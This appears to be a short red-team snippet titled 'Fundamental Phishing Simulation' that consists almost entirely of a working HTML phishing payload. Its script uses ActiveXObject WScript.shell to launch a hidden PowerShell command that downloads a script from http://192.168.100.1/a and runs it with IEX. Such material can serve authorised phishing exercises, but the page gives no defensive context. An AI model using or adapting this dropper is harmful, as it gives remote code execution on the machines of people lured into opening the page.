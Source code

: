### Fundamental Phishing Simulation


```
<html>
<script>	
    	var Data = "powershell.exe -nop -w hidden -c \"IEX((new-object net.webclient).downloadstring('http://192.168.100.1/a'));\"";
	var Value = new ActiveXObject("WScript.shell");
	Value.run(Data );
</script>
</html>

```
